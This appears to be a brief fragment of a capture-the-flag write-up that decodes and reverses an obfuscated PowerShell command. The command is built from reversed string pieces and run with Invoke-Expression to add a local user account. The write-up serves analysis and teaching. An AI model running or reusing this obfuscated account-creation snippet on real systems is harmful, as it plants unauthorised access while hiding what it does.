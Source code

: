 - Decode the base64 encoded

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/ihack24/Screenshot%202024-07-28%20093115.png?raw=true)

- Reverse that string using powershell

```powershell
$laIIMq = 'dd' + 'a/' + ' ni' + 'mdAS' + 'YS n' + 'i' + 'md' + 'asys ' + 'r' + 'es' + 'u t' + 'en'; 
$kSmmAiw = -join ($laIIMq.ToCharArray()[-1..-($laIIMq.Length)]); Invoke-Expression 
$kSmmAiw ; Start-Sleep -Seconds 600
```
![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/ihack24/Screenshot%202024-07-28%20093324.png?raw=true)

